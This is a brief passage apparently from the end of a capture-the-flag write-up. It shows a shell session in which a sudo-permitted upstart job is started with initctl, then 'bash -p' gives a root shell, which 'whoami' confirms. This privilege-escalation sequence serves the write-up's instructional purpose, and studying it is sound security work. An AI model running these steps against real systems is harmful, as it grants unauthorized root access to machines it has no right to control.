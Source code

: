 ```bash
-bash-4.3$  sudo /sbin/initctl start test
test start/running, process 47999
-bash-4.3$ bash -p
bash-4.3# whoami
root
```
Thx for reading !!

![](../Armageddon/Images/giphy.gif)
